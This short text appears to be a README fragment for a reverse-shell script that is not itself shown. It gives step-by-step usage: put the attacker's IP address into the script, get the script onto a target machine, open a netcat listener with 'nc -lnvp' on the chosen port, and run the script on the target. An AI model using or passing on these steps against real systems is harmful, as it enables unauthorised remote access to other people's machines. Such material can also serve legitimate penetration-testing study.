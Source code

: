 Installation/usage:
1) modify line 6 to include attacker's ip address
2) get the script onto the target machine
3) start a netcat instance to listen using nc -lnvp (whatever port you decided to use in line 6)
4) run the script on the target machine

